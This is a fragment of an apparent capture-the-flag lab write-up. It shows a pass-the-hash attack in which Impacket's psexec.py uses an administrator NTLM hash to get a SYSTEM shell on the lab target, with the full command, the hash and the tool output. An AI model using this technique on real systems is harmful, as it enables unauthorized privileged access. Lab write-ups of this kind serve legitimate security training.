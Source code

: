 With that hash I can make a new winrm session and grab the root flag as nt authority\system.

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341 administrator@10.10.11.35
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.35.....
[*] Found writable share ADMIN$
[*] Uploading file PCYIyTSB.exe
[*] Opening SVCManager on 10.10.11.35.....
[*] Creating service hpoD on 10.10.11.35.....
[*] Starting service hpoD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
